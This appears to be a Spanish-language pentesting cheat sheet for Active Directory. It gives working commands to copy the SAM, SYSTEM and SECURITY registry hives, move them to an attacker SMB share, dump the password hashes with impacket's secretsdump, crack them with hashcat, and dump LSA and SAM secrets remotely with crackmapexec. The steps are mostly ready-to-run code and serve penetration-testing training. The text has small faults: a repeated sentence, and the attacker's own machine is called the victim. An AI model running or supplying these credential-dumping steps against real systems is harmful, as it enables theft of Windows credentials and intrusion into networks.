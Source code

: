# Directorio Activo
## Descripción
Pentesting Directorio Activo , comandos

### SAM - SYSTEM - SECURITY
Hay tres colmenas de registro que podemos copiar si tenemos acceso de administrador local en el destino; cada uno tendrá un propósito específico cuando lleguemos a desechar y descifrar los hashes. Lo siguiente se hace desde el equipo windows con permisos de administrador en una consola cmd.

```python
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```
Lo siguientes es pasarlo a nuestro equipo victima.
```python
sudo impacket-smbserver share -smb2support /tmp/smbshare (Linux)
move sam.save \\IPTUYA\share
move system.save \\IPTUYA\share
move security.save \\IPTUYA\share
```
Ahora toca volcar los hashes
Lo siguientes es pasarlo a nuestro equipo victima.
```python
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
Por último, deberemos de romper la clave o con john the ripper o con hashcat tomando en cuenta que son contraseñas NT
```python
Dumping local SAM hashes (uid:rid:lmhash:nthash)
```
```python
sudo hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```

Tambien podemos hacerlo sin conectarnos a la máquina víctima desde RDP, como tenemos las credenciales admin podemos hacer lo siguiente:
```python
crackmapexec smb IPVICTIMA --local-auth -u USER -p PASS --lsa
crackmapexec smb IPVICTIMA --local-auth -u USER -p PASS --sam
```
